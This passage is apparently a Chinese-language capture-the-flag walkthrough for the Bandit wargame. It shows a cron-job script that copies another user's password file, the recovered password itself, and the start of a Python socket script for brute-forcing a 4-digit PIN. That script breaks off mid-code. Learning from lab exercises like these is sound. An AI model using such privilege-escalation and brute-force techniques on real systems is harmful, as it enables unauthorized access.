 看起来如果 owner 是我们的话，就会执行我们的脚本

```shell
$ mktemp -d
/tmp/tmp.SwuGSBGO3O
$ cd /tmp/tmp.SwuGSBGO3O
$ vim a.sh
```

```shell
#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.SwuGSBGO3O/pass
```

```shell

$ chmod +x a.sh
$ cp a.sh /var/spool/bandit24/foo/
# 等待 60 秒
$ cat pass
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```



## L24->L25 brute-forcing

> ## Level Goal
>
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
> You do not need to create new connections each time

爆破 4 位数密码

```shell
$ mktemp -d
/tmp/tmp.vNMx0vk8LD
$ cd /tmp/tmp.vNMx0vk8LD
$ vim a.py
```



```python
#!/bin/python3
import socket
import threading

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_address = ('localhost', 30002)
client_socket.connect(server_address)
output = open("/tmp/tmp.vNMx0vk8LD/LOG.log", "wb")

def recv():
    # 接收 Hello
    while True:
        try:
        	response = client_socket.recv(1)
            output.write(response)
        	#print(response.decode(), end="")
        except:
            pass
    
threading.Thread(target=recv).start()
    
try:
    # 发送 Hi
```